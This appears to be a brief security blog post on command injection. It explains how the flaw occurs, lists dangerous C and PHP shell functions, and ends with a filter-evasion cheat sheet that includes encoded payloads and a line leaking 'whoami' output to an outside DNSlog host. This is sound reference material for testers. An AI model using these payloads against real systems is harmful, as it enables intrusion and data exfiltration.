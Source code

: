 ```yaml
---
title: Command Injection
date: 2018-09-25 00:11:27
tags: shell
categories: Injection
---
```


## Common occurrences of vulnerabilities
It often occurs when unsafe data is passed to a system shell.

## Use of Vulnerabilities
**List directory**

**Get file content**

**Get reverse shell**

## Testing of Command Injection
**white Box Testing**
We focus particularly on the function that calls system shell. And 
we try to add a semicolon(or '|', '&&' and so on) and another command 
to the input parameter, then we can observe result whether the command 
that we injected has been executed.
<!--more-->

* C
system
exectl

* php
system
exec
shell_exec
passthru
popen
proc_open
pcntl_exec

## Command Injection Filter Evasion Cheat Sheet
**Separator**
* |
* ||
* ;
* &
* &&

**No space**
* cat<flag
* cat${IFS}flag
* cat$IFS"flag"
* cat	flag(Tab)

**Filter special characters**
* $(printf$IFS"\x77\x68\x6f\x61\x6d\x69")

**No visual output**
* ping \`whoami\`.rg1ido.ceye.io

Use DNSlog to receive data

# To be continue